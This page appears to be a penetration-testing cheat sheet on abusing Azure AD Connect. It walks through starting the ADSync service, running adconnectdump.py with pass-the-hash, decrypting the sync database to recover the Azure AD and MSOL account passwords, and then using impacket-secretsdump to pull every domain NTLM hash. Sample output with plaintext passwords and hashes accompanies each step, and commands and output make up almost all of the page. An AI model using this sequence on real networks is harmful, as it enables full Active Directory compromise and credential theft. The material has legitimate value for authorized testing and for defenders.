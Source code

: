  ---
title: "Azure AD Connect"
date: 2024-11-23
tags: ["Azure AD Connect", "Secretsdump", "ADSync", "Password", "Active Directory", "Windows"]
---

### Abuse #1: Azure AD Connect Password Extraction

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Start ADSync Service

```console
Set-Service -name adsync -StartupType automatic
```

```console
Set-Service -name adsync -status running -passthru
```

```console {class="sample-code"}
Set-Service -name adsync -status running -passthru
WARNING: Waiting for service 'Microsoft Azure AD Sync (adsync)' to start...

Status   Name               DisplayName                           
------   ----               -----------                           
Running  adsync             Microsoft Azure AD Sync
```

#### 2. Download ADSync.mdf and ADSync_log.LDF

```console
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH>
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Stopping service ADSync
[*] Downloading ADSync database files
[*] Starting service ADSync
[*] Querying database for configuration data
[-] RemoteOperations failed: [Errno 2] No such file or directory: 'ADSyncQuery.exe'
[*] Cleaning up...
```

#### 3. Queries credentials from the database

```console
# Copy both ADSync.mdf and ADSync_log.LDF to WindowsVM
PS C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release> .\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

#### 4. Credentials Dump

```console
# Copy out.txt back to Linux
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH> --existing-db --from-file out.txt
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509 --existing-db --from-file out.txt  
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Loading configuration data from out.txt on filesystem
[*] Loading configuration data from out.txt on filesystem
[*] Querying LSA secrets from remote registry
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x987bea20b50bfc66c273c58af1db3f81
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
[*] DPAPI_SYSTEM 
[*] Found DPAPI machine key: 0x7d9f2ed42e9261104b0741930fe622a71b6b4f50
[*] NL$KM 
[*] New format keyset detected, extracting secrets from credential store
[*] Querying credential file 406287F0CFB069C8F8686B36D48A941E
[*] Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
[*] Decrypted ADSync user masterkey using SYSTEM UserKey + SID
[*] Found correct encrypted keyset to decrypt data
[*] Decrypting DPAPI data with masterkey 22D587F4-2779-4509-BA70-A611200BCC5E
[*] Decrypting encrypted AD Sync configuration data
[*] Azure AD credentials
[*]     Username: Sync_SRV001_2a1d03e02d11@a67632354763outlook.onmicrosoft.com
[*]     Password: A9]*w+X#Ox(YQ%{/
[*] Local AD credentials
[*]     Domain: example.LOCAL
[*]     Username: MSOL_2a1d03e02d12
[*]     Password: Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

#### 5. Secrets Dump

```console
impacket-secretsdump <DOMAIN>/<USER>:'<PASSWORD>'@<TARGET_DOMAIN> -just-dc
```

```console {class="sample-code"}
$ proxychains4 -q impacket-secretsdump example.local/MSOL_2a1d03e02d12:'Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z'@dc.example.local -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ddf32e17a6ac5ce04a8ecbf782ca509:::
...[SNIP]...
```

{{< /tabcontent >}}
